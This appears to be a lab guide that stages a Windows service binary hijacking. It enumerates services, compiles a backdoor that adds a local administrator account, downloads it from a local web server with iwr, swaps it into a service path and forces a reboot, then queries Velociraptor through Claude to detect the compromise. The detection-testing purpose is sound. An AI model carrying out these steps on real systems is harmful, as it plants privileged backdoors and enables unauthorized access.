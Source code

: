 # Steps to fabricate attack(safe) on Windows
This document denotes how we can fabricate a plausible attack on a Windows machine.

We demonstrate a Windows service binary hijacking(that is benign in nature).

## Step 1: Enumeration
### Open PowerShell and key in this command to look at which services are running to determine what to hijack
``` Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'} ``` 
#### We want to obtain a binary that is not located in C:\\WINDOWS\\sys32

## Spawning a benign service if unable to find one to hijack (for testing purposes)
``` sc.exe create InfoService binPath= "C:\Program Files\InfoService\infoservice.exe" start= auto ```
``` mkdir "C:\Program Files\InfoService" ```
``` copy "C:\Windows\System32\notepad.exe" "C:\Program Files\InfoService\infoservice.exe" ```
### Check if service is spawned (Normal case would not because it is in start=auto, only start when reboot)
``` sc qc InfoService ```

## Creating a malicious .dll and running it (Adds user backdoor with admin privileges)
1. Add this line before backdoor function: `extern "C" __declspec(dllexport)`
2. Load Visual Studio and compile it (adduser.dll) -> Make sure it is in Release mode and not Debug mode
3. Navigate to where the .dll is located and launch the .dll using the following cmd: `rundll32.exe .\adduser.dll, backDoor` (Make sure to run w elevated privileges, i.e. Powershell as Administrator)

## Creating a new Group Policy Client Side Extension (CSE) registration -> Persistence / Privilege escalation


## Step 2: Create malicious binary in Kali Linux: 
### Create and compile binary: 
``` x86_64-w64-mingw32-gcc adduser.c -o adduser.exe ```
### Start web server in same directory as binary created:
``` python3 -m http.server``` 
### Download on Windows client (PowerShell):
```iwr -uri http://192.168.75.130:8000/adduser.exe -Outfile adduser.exe```
### Backup the binary by moving the original binary to a safe location
```move "C:\Program Files\InfoService\infoservice.exe" "infoservice.exe"```
```move ".\adduser.exe" "C:\Program Files\InfoService\infoservice.exe"```
```net stop infoservice ```
### Force a reboot of the system to spawn the new service
``` shutdown /r /t 0 ```
### Verify if binary was run: (Should see a new user root2)
```Get-LocalGroupMember administrators```

## Step 3: Query Velociraptor in Claude
``` Can you give me all system binaries on DESKTOP-MHTMS38 and flag services whose binary was modified recently(e.g. in the last 24 hours) ``` (works and has results by Claude)

`can you give me all network connections on DESKTOP-MHTMS38 and look for suspicious processes?`

`can you tell me which artifacts target the USN journal` 